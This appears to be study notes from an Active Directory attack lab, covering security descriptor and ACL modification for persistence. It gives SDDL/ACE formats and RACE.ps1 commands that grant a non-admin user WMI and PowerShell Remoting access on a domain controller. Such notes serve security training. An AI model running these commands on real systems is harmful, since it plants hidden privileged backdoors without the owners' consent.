 ## Security Descriptors

### General

- It's possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (secureable objects to allow access to non-admin users)
- Admin privileges required
- Security Description Definition Language defines format for Security Descriptors
- SDDL uses ACE strings for DACL and SACL

```powershell
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```

- ACE for built-in administrators for WMI namespaces

```powershell
A;CI;CCDCLCSWRPWPRCWD;;;SID
```

### Exploitation

Using samratashok's [RACE.ps1](https://github.com/samratashok/RACE)

#### WMI

Modify ACLs to allow non-admin users access to securable objects

```powershell
# On local machine for user
Set-RemoteWMI -SamAccountName student572 -Verbose

# On remote machine for user without explicit credentials
Set-RemoteWMI -SamAccountName student572 -ComputerName dcorp-dc -Namespace "root\cimv2" -Verbose

# On remote machine with explicit credentials. Only root\cimv2 and nested namespaces
Set-RemoteWMI -SamAccountName student572 -ComputerName dcorp-dc -Credential Administrator -Namespace "root\cimv2" -Verbose

# Remove permission on remote machine
Set-RemoteWMI -SamAccountName student572 -ComputerName dcorp-dc -Namespace "root\cimv2" -Remove -Verbose
```

#### PowerShell Remoting

Enable PS Remoting

```powershell
# On local machine
Set-RemotePSRemoting -SamAccountName student572 -Verbose

# On remote machine without credentials
Set-RemotePSRemoting -SamAccountName student572 -ComputerName dcorp-dc -Verbose

# Remove permission on remote machine
Set-RemotePSRemoting -SamAccountName student572 -ComputerName dcorp-dc -Remove -Verbose
```
